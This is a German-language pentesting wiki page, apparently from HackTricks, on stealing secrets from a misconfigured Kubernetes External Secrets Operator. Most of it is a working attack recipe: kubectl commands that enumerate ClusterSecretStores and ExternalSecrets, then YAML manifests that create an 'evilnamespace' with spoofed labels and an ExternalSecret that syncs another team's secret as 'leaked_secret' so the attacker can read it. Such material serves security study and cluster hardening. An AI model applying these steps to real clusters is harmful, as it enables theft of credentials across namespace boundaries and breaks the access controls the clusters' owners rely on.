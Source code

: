 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Der ursprüngliche Autor dieser Seite ist** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Diese Seite gibt einige Hinweise, wie Sie Geheimnisse von einem falsch konfigurierten ESO oder einer Anwendung stehlen können, die ESO verwendet, um ihre Geheimnisse zu synchronisieren.

## Haftungsausschluss

Die unten gezeigte Technik kann nur funktionieren, wenn bestimmte Umstände erfüllt sind. Zum Beispiel hängt es von den Anforderungen ab, die erforderlich sind, um ein Geheimnis in einem Namespace zu synchronisieren, den Sie besitzen / kompromittiert haben. Sie müssen es selbst herausfinden.

## Voraussetzungen

1. Ein Fuß in einem Kubernetes / OpenShift-Cluster mit Administratorrechten in einem Namespace
2. Lesezugriff auf mindestens ExternalSecret auf Cluster-Ebene
3. Herausfinden, ob erforderliche Labels / Annotationen oder Gruppenmitgliedschaften benötigt werden, die es ESO ermöglichen, Ihr Geheimnis zu synchronisieren. Wenn Sie Glück haben, können Sie beliebige definierte Geheimnisse frei stehlen.

### Informationen über vorhandene ClusterSecretStore sammeln

Vorausgesetzt, Sie haben einen Benutzer, der genügend Rechte hat, um diese Ressource zu lesen; beginnen Sie damit, zunächst vorhandene _**ClusterSecretStores**_ aufzulisten.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret Enumeration

Angenommen, Sie haben einen ClusterSecretStore mit dem Namen _**mystore**_ gefunden. Fahren Sie fort, indem Sie das zugehörige externalsecret auflisten.
```sh
kubectl get externalsecret -A | grep mystore
```
_Diese Ressource ist namespaced, also fügen Sie die Option -A hinzu, um in allen Namespaces zu suchen, es sei denn, Sie wissen bereits, nach welchem Namespace Sie suchen._

Sie sollten eine Liste der definierten externalsecret erhalten. Angenommen, Sie haben ein externalsecret-Objekt namens _**mysecret**_ gefunden, das im Namespace _**mynamespace**_ definiert und verwendet wird. Sammeln Sie ein wenig mehr Informationen darüber, welche Art von Geheimnis es enthält.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Die Teile zusammenfügen

Von hier aus können Sie den Namen eines oder mehrerer Geheimnisse (wie im Secret-Ressourcen definiert) erhalten. Sie erhalten eine Ausgabe ähnlich wie:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Bisher haben wir:

- Name eines ClusterSecretStore
- Name eines ExternalSecret
- Name des Secrets

Jetzt, da wir alles haben, was wir brauchen, können Sie ein ExternalSecret erstellen (und gegebenenfalls einen neuen Namespace patchen/erstellen, um die Voraussetzungen zu erfüllen, die erforderlich sind, um Ihr neues Secret synchronisiert zu bekommen):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nach ein paar Minuten, wenn die Synchronisationsbedingungen erfüllt sind, sollten Sie in der Lage sein, das geleakte Geheimnis in Ihrem Namespace zu sehen.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referenzen

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
